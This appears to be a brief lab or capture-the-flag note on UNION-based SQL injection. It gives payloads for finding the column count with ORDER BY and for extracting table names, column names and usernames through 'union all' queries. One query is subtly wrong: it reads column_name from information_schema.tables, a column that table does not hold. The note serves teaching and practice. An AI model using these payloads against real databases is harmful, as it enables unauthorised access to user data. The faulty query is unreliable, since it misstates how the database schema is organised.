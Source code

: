 Column enumeration

`1 ORDER BY X` where X is the column number 

Enumeration through query

`1 union all <query>`

Note that the query will need to result in the same number of columns to avoid errors.

`<query>` could be:
- `select 1, table_name from information_schema.tables` (this is MariaDB specific)
- `select 1, column_name from information_schema.tables where table_name='users'`
- `select 1, username from users`
